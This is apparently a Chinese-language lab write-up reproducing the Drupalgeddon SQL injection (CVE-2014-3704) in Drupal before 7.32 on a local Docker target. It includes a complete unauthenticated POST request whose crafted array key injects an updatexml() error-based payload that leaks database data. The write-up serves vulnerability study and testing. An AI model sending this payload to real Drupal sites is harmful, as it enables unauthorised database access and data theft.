



# Drupal < 7.32 "Drupalgeddon" SQL 注入漏洞（CVE-2014-3704）

Drupal 是一个使用 PHP 编写的免费开源的 Web 内容管理框架，在 GNU 通用公共许可证下分发。

在 Drupal Core 7.32 版本之前的 7.x 版本中，数据库抽象 API 中的 expandArguments 函数没有正确构造预处理语句，这允许远程攻击者通过包含精心构造的键的数组进行 SQL 注入攻击。

参考链接：

- <https://www.drupal.org/SA-CORE-2014-005>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704>

## 环境搭建

执行如下命令启动一个 Drupal 7.31 服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 将会看到 Drupal 的安装向导，使用默认配置进行安装。

注意：MySQL 数据库名为 `drupal`，数据库用户名和密码均为 `root`，地址为 `mysql`：



安装完成后，即可访问首页：



## 漏洞复现

该 SQL 注入漏洞无需身份认证，可以通过发送以下请求来执行恶意 SQL 语句：

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

如图所示，SQL 语句报错信息中包含了用户数据：


